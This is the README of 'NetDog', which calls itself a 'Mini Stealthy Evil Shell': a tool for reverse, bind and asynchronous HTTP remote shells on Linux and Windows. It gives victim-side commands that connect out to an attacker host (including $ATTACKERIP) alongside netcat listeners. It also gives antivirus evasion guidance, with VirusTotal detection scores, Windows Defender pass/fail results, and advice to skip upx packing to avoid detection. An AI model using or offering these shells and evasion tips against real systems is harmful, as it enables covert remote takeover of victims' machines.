 # NetDog
Mini Stealthy Evil Shell

## Roadmap
- Reverse Shell
    - [x] TCP
        - [ ] TLS
    - [x] UDP
        - [ ] DTLS
- Bind Shell
    - [x] TCP (use SSH backdoor for encryption)
    - [x] UDP
        - [ ] DTLS
    - [ ] Authentication
- HTTP shell
    - Web Shell (will be available at [gohfs](https://github.com/finzzz/gohfs))
    - [x] Asynchronous
        - [ ] TLS
        - [ ] Authentication
- Others
    - [x] Auto reconnect
    - [x] Fake SSH backdoor server
        - [ ] Listen persistently
        - [ ] Authentication

## Choosing binary
- There are only 2 types: `nd` (linux/amd64) `nd.exe` (windows/amd64)  
- For windows, choose the one without upx to avoid being detected as virus.  

## Reverse shell
```
+--------------------------------+            +--------------------------------+
|                                |            |                                |
|                         victim +------------> attacker (10.1.1.1)            |
| ./nd -host 10.1.1.1 -port 1234 |            | nc -lvnp 1234                  |
|                                |            |                                |
+--------------------------------+            +--------------------------------+
```

## Bind shell
```
+--------------------+            +--------------------+
|                    |            |                    |
|  victim (10.1.1.2) <------------+ attacker           |
|       ./nd -l 1234 |            | nc 10.1.1.2 1234   |
|                    |            |                    |
+--------------------+            +--------------------+
```

## HTTP shell
### Asynchronous
```
+-------------------------+                 +------------------------+
|victim                   |                 |attacker                |
|http client              |                 |http server             |
|                         |                 |                        |
|                         |   find command  |                        |
|                         +----------------->                        |
|            execute <----+                 |                        |
|                         +----------------->                        |
|                         |    response     |                        |
|                         |                 |                        |
|                         |                 |                        |
+-------------------------+                 +------------------------+
```
```bash
./nd -async -m http -server # server
./nd -host $ATTACKERIP -port $ATTACKERPORT -async -m http # client
```

## AV status
2021-05-23 03:13:04 UTC

| type | size | score | windows defender |
| - | - | -| - |
|without upx | 2.2 MB|[4/69](https://www.virustotal.com/gui/file/b042c2498ab6ee36ce998842d4ed4592d46f55026677f1f6e750edf7b6a2411d/detection)| pass|
|with upx | 663 KB|[6/69](https://www.virustotal.com/gui/file/b6f9b09b20cda55d3e87d4f3c74971bffa65781c297ea4742c5987cc69b9b391/detection)| not pass|

## Usage
```
$./nd -h
Usage of ./nd:
  -host string
        Host (default "127.0.0.1")
  -l    Bind mode
  -port string
        Port (default "1234")
  -recon string
        Reconnecting Time (default "15s")
  -shell string
        Unix Shell (default "/bin/sh")
  -u    Enable UDP
```